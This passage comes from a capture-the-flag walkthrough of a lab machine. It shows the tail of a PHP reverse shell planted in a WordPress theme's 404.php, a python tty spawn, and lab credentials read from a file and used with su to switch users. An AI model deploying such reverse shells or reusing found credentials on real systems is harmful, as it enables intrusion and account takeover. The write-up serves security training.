 ```php
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```

Now go to `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php` and get the reverse shell.

Spawn tty:
```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

Manually going for common files and directories we can find `wp-save.txt`in the `/opt` folder:
```
www-data@internal:/opt$ cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.
aubreanna:bubb13guM!@#123
```

If we go to `/home` we can see `/aubreanna` which means that there is a user `aubreanna`.

```
www-data@internal:/home$ su aubreanna
su aubreanna
Password: bubb13guM!@#123

aubreanna@internal:/home$ 
```
